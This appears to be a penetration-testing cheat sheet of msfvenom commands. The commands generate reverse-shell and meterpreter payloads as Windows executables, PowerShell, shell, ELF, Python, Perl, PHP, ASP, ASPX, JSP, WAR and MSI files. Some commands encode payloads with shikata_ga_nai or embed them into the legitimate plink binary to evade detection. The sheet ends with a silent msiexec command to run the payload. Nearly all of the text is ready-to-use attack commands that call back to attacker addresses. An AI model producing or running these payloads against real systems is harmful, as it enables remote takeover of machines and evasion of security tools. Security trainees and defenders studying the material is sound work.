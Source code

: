 ```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe
# Windows reverse shell embedded into plink  
```
### Powershell
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -i 9 -f psh -o shell.ps1
```
### Sh
```
msfvenom -p cmd/unix/reverse_bash LHOST="10.0.0.1" LPORT=4242 -f raw > shell.sh
```
### ELF
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f elf > shell.elf
```
### Python
```
msfvenom -p cmd/unix/reverse_python LHOST="10.0.0.1" LPORT=4242 -f raw > shell.py
```
### Perl
```
msfvenom -p cmd/unix/reverse_perl LHOST="10.0.0.1" LPORT=4242 -f raw > shell.pl
```
### PHP
```
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f raw -o shell.php
# Or this crazy syntax
msfvenom -p php/meterpreter_reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f raw > shell.php; cat shell.php | pbcopy && echo '<?php ' | tr -d '
```
### ASP
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f asp > shell.asp
```
### ASPX
```
msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.16.3 LPORT=4444 > shell.aspx
```
### JSP
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f raw > shell.jsp
```
### Java WAR
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f war > shell.war
```
### MSI
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f msi -o filename.msi
# Or this crazy syntax
msfvenom -p windows/meterpreter/reverse_https -e x86/shikata_ga_nai LHOST="10.0.0.1" LPORT=4242 -f msi -o filename.msi
```
Executing msi file:
```
msiexec /quiet /qn /i C:\\Users\\filename.msi
```